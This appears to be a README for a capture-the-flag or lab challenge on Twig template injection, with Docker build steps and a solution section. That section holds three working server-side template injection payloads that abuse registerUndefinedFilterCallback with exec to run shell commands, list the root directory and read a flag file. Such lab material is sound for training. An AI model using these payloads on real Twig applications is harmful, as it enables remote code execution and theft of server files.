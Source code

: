 # Twig Template injection

## Build instructions

Requirements:
 - Docker
 - Docker-compose

```
docker-compose up
```

## Solution

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo -E `ls /`")}}
```

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo -E `cat /secret/flag_twigtwig.txt`")}}
```
